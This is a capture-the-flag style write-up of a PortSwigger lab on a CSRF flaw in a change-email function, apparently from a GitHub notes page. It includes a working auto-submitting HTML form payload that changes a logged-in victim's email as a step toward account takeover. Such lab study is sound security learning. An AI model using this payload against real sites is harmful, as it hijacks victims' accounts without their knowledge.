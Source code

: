 # Lab: CSRF vulnerability with no defenses

- link to lab: https://portswigger.net/web-security/csrf/lab-no-defenses

## Steps and deep understanding

- In this laboratory, I found a "change email address" function which is vulnerable to CSRF. There is no protection against this vulnerability, such as a CSRF token or anything else.

- The mindset is: let's try to craft a malicious webpage and send it to our victim. Because if our victim is logged into the page, our malicious link can instantly submit an email change to a known address provided by you.

- What is the purpose of this attack? We can then perform a password change using our email address, which was changed on the victim's account when they clicked on the malicious link.

## Looking into the vulnerable function

- I logged into the platform looking for the change email address function. Then I inspect for discover what is the endpoint responsible:

![alt text](img/image.png)
![alt text](img/image-1.png)

- The endpoint is `/my-account/change-email`

## Crafting the HTML to make the CSRF

- Let's create our html form, store and send it to the victim using our exploit server

This code snippet consists of HTML and JavaScript.

The HTML part is a form that is set to submit a POST request to a specified URL:

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="email@example.com"> // the value contains your desired email to send in the request body
</form>
<script>
        document.forms[0].submit(); // auto submit the form
</script>
```

and.. Finally!

![alt text](img/image-2.png)